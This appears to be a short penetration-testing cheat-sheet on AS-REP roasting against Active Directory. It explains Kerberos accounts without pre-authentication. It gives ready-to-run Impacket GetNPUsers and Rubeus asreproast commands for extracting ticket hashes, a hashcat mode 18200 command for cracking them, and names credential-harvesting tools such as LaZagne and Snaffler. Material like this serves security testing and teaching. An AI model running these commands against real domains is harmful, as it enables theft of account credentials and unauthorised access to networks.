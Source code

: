 ### Occurs when a user account has the privilege "Does not require Pre-Authentication" set.

### This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

#### Impacket-GetNPUsers.py domain.com\john.doe -no-pass (Retrieves a TGT)

### You can also do:

#### 1) Gather domain accounts in a list

#### 2) python3 Impacket-GetNPUsers.py -dc-ip DC_IP DOMAIN/USER -userfile /tmp/list.txt

### More tools:

#### 1) Snaffler

#### 2) Lazagne

#### 3) Seatbelt

# Asreproasting

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `.\Rubeus.exe asreproast /outfile:asrep.txt`                 | Used to perform the Asreproast attack and save the extracted tickets to a file. |
| `hashcat -m 18200 -a 0 asrep.txt passwords.txt --force`      | Uses `hashcat` to crack AS-REP hashes that were saved in a file. |

